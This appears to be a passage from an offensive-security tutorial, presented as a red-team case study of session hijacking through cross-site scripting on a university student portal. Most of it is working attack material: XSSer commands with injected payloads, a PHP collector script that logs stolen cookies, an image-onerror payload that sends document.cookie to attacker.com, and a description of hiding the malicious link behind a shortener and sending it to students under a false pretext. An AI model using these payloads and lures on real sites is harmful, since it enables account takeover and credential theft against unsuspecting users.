 To use this script:

```bash
chmod +x xsser_comprehensive.sh
./xsser_comprehensive.sh "http://vulnerable-site.com/page.php?param=test"
```

### Example: Session Hijacking via XSS

During a red team assessment for an educational institution, we discovered a cross-site scripting vulnerability in the student portal's search functionality. Here's how we leveraged this for session hijacking:

1. **Initial Discovery**:
   - Identified a search function at `https://student-portal.edu/search.php?q=coursename`
   - Testing for XSS by injecting a basic payload:

   ```bash
   xsser -u "https://student-portal.edu/search.php?q=test" --payload="<script>alert(document.cookie)</script>"
   
   # XSSer detected the vulnerability
   ```

2. **Setting Up the Attack Infrastructure**:
   ```php
   // On our attacker server, created collect.php:
   <?php
   $cookie = $_GET['c'];
   $ip = $_SERVER['REMOTE_ADDR'];
   $user_agent = $_SERVER['HTTP_USER_AGENT'];
   $timestamp = date('Y-m-d H:i:s');
   
   file_put_contents('stolen_cookies.txt', "[{$timestamp}] IP: {$ip} UA: {$user_agent} Cookie: {$cookie}\n", FILE_APPEND);
   
   // Return a 1x1 transparent GIF
   header('Content-Type: image/gif');
   echo base64_decode('R0lGODlhAQABAIAAAAAAAP///yH5BAEAAAAALAAAAAABAAEAAAIBRAA7');
   ?>
   ```

3. **Creating a Stealth Payload**:
   ```bash
   # Create a payload that sends cookies to our collector
   PAYLOAD="<img src=x onerror=\"var i=new Image(); i.src='http://attacker.com/collect.php?c='+encodeURIComponent(document.cookie);\">"
   
   # Test the payload with XSSer
   xsser -u "https://student-portal.edu/search.php?q=test" --payload="$PAYLOAD"
   ```

4. **Exploiting the Vulnerability**:
   ```bash
   # Created a shortened URL to hide the payload
   # The full malicious URL was:
   # https://student-portal.edu/search.php?q=<img src=x onerror="var i=new Image(); i.src='http://attacker.com/collect.php?c='+encodeURIComponent(document.cookie);">
   
   # Sent the shortened URL to students and administrators
   # Claimed it was a link to search for a popular course
   ```
